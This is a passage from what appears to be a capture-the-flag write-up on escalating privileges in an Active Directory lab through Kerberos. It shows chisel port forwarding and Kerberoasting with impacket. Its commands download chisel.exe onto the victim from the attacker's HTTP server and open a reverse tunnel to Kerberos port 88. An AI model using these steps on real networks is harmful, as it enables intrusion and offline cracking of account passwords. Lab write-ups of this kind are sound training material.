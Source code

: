 It is also possible to **Escalate Privileges** through the **Kerberos** protocol, but using **Port Forwarding** with **[chisel](https://github.com/jpillora/chisel){:target="_blank"}**. I just need to download the latest version of `chisel` and a deprecated version of `chisel.exe` (because the **OS version** of the **AD** is old), then I must transfer the latter to the victim machine to create the tunnel from port **88** on my machine to port **88** on the target. First I will try to perform a brute force attack (with the list of **AD** users and indicating that the **IP** of the **DC** is the **localhost**) to get a **TGT** of those accounts that do **Not require Kerberos pre-authentication** with `impacket-GetUNPUsers`, but I have no luck. The next thing I try is to use `impacket-GetUserSPNs` to get some ticket from some **SPN** that will allow me to crack later with `john`. The first time I run the command it doesn't work because I also need to create a tunnel to **LDAP** port **389** and I already succeed to get the Ticket that is going to help me to re-engage the box. Now I just need to clean up my **Docker** environment.

> **[Impacket’s GetUserSPNs.py](https://wadcoms.github.io/wadcoms/Impacket-GetUserSPNs/){:target="_blank"}** will attempt to fetch **Service Principal Names** that are associated with normal user accounts. What is returned is a ticket that is encrypted with the user account’s password, which can then be bruteforced offline.

> In **Windows** environments, a **Service Principal Name** (**SPN**) is a **unique identifier** that links a service instance to a service logon account, allowing clients to authenticate and connect to the correct service within **Active Directory**. Essentially, it's how a service tells the **Kerberos authentication system**, "This is who I am."

> **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/chisel_1.* .
gunzip chisel_1.10.1_linux_amd64.gz &>/dev/null
gunzip chisel_1.7.5_windows_amd64.gz &>/dev/null
mv chisel_1.10.1_linux_amd64 chisel
mv chisel_1.7.5_windows_amd64 chisel.exe
chmod +x chisel
./chisel

python3 -m http.server 80
```

> **Victime Machine**:

```cmd
iwr -uri http://10.10.14.2/chisel.exe -OutFile .\chisel.exe
.\chisel.exe
```

> **Attacker Machine**:

```bash
./chisel server --reverse -p 1234
```

> **Victime Machine**:

```cmd
.\chisel.exe client 10.10.14.2:1234 R:88:127.0.0.1:88
```

> **Attacker Machine**:
